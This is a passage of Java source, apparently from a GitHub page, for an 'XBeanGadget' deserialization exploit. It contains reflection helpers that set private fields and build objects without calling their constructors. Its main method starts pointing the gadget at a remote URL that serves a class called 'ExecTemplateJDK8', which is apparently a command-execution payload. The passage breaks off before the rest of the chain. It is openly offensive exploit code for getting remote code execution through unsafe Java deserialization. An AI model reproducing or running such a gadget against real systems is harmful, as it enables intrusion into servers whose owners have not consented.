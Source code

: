 ```java
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 1:06 上午
 */
public class XBeanGadget {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    @SuppressWarnings ( {
            "unchecked"
    } )
    public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes,
                                                Object[] consArgs ) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }

    public static void main(String[] args) throws Exception {

        String remoteUrl = "http://127.0.0.1:8180/";
        String remoteClass = "ExecTemplateJDK8";
```